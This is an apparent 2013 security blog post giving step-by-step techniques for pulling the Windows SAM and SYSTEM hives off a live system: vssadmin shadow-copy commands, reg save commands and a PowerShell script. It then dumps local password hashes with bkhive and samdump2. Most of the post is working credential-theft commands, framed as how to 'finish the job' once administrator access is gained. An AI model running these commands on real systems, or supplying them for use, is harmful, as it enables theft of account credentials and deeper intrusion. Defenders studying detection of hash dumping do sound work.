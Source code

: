 title: Manual Local Hash Extraction
date: 2013-05-24
categories: [network security]

There has been enough interest around the topic of manual local hash extraction that I wanted to document all of the techniques I am aware of in one place.

The SAM and SYSTEM hives hold the necessary information to acquire authentication hashes for all local users on a Windows operating system. Normally, these files are locked and inaccessible, even by the SYSTEM and Administrator accounts. The following techniques are ways to access the SAM and SYSTEM hives within a Windows operating system during normal operation. Be advised that these techniques require Administrator or SYSTEM level privileges.

### Volume Shadow Copy Service

```
vssadmin create shadow /for=c: #if required
vssadmin list shadows
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<#_from_above>\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<#_from_above>\windows\system32\config\SAM .
```

[Reference](http://pauldotcom.com/2011/11/safely-dumping-hashes-from-liv.html)

### Registry Access

```
reg save hklm\sam SAM
reg save hklm\system SYSTEM
```

[Reference](http://exfiltrated.com/tools.php#SAMExtract)

### PowerShell Script

```
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
`cmd /c copy "$($volume.DeviceObject)\windows\system32\config\SAM"\`
$volume.Delete();if($notrunning -eq 1){$service.Stop()}
```

[Reference](http://www.canhazcode.com/index.php?a=4)

### Finishing the Job

Use the following commands to finish the job. Both applications are included in the Kali default tool set.

``` bash
bkhive SYSTEM keyfile
samdump2 SAM keyfile
```
